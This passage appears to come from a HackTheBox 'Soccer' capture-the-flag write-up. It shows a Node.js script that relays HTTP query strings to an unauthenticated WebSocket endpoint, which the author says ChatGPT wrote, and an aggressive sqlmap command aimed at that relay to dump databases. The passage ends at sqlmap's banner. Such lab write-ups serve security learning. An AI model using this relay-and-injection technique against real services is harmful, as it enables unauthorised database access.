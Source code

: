        function append(msg) {
       let p = document.querySelector("p");
       // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
       // p.style.color = randomColor;
       p.textContent = msg
       }
    </script>
    [...]

Here's the mystery: Apparently, calls to the backend are made via **WebSocket**. I played a bit with **BurpSuite**, and I discovered that the calls are not _authenticated_ (also understandable from the code honestly). Unfortunately, **sqlmap** does not support the **websocket** protocol, and if I wanted to exploit its capabilities, I would have to _forward_ **sqlmap**'s **http** calls over the **ws** protocol. I searched a bit for some tools that performed this type of operation, but in the end, I opted to write it myself in **node.js** (actually, I had our friend **ChatGPT** write it).

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/tests]
    └─$ cat script.js    
    const http = require('http');
    const WebSocket = require('ws');
    
    const server = http.createServer((req, res) => {
      // Get the querystring from the HTTP request
      const query = require('url').parse(req.url, true).query;
    
      // Create a WebSocket connection to the desired endpoint
      const ws = new WebSocket('ws://soc-player.soccer.htb:9091');
    
      // When the WebSocket is open, send the query as a JSON object
      ws.on('open', () => {
        ws.send(JSON.stringify(query));
      });
    
      // When a message is received from the WebSocket, write it to the HTTP response
      ws.on('message', (data) => {
        res.write(data);
        res.end();
      });
    });
    
    server.listen(8080, () => {
      console.log('HTTP server listening on port 8080');
    });
    
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/tests]
    └─$ node script.js 
    HTTP server listening on port 8080

And we ran the **sqlmap** scan again, but this time on _localhost_.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969" --risk 3 --level 5 --batch --dbs                                          
            ___
           __H__                                                                                                                                                                                             
     ___ ___[,]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [']     | .'| . |                                                                                                                                                                                
    |___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    